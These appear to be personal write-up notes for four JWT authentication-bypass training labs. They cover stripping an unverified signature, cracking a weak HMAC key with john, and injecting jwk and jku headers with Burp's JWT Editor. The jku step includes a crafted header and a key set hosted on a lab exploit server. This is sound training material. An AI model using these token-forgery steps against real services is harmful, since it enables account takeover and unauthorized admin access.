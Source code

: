# Lab: JWT authentication bypass via unverified signature

Try to change without changing the signature

Remove the signature and change the payload value


# Lab: JWT authentication bypass via weak signing key

```bash
┌──(root💀lulz-ExtraFold)-[~]
└─# john --wordlist=jwt.secrets.list jwt.txt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 512/512 AVX512BW 16x])
Will run 32 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
secret1          (?)
1g 0:00:00:00 DONE (2024-12-31 06:46) 10.00g/s 944181p/s 944181c/s 944181C/s ..!@2222222fasdhiohDCWQA
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

# Lab: JWT authentication bypass via jwk header injection

Use JWT Editor Burp Extension to generate and embedded JWK into the original JWT token
First go to JWT Editor to generate a new RSA key.
Change the payload sub to `administrator` and then Attack -> Embedded JWK
Then send.

# Lab: JWT authentication bypass via jku header injection

```plaintext
Solution:

Change the header into something like this:
{  
    "kid": "ef31f9fc-1fe0-45de-8e34-7074897a728e",  
    "alg": "RS256",  
    "jku": "https://exploit-0a400099037332758298dcf001f900f7.exploit-server.net/exploit"  
}
Note: Change the kid to the same with kid generated from JWT Editor.

Exploit server BODY:
{
    "keys": [
{
    "kty": "RSA",
    "e": "AQAB",
    "kid": "ef31f9fc-1fe0-45de-8e34-7074897a728e",
    "n": "s_OJAa4KGJz8m1kjV5dAVvAC0Yg4qSNCnc0wWTHJSJK8u1j3i50fIe1Iqn9DKMkJNlODMs0YRQpiy38El_k0XosBV-oFEtV4OtV9PykJQogWqq-lzuPG-wnIGeNBItSwrOYecogeEw5TeGuFW3RILey7G6a9RQQqcvLnfXXiJ7BkUpBVnYBLlIKHAVfoO_PexuVEbmG518wXK5U8n6OlZ7weuxyS0UiWATUQxVjvdY2o6dq4H5NRFHCDo7XMssTWm8ABVlzE84_uzCwB6bO5cIu2F22ZY6oNJoZk5cDX6_B_HrCwO4_DcyIGsixWSD5cIwiVCa7c3X-me3iQsCXB3w"
}
    ]
}
With the keys copy from JWT Editor Extension -> Copy Public key as JWK

Sign the new JWT (With options: Dont't modify the header)

SEND
```
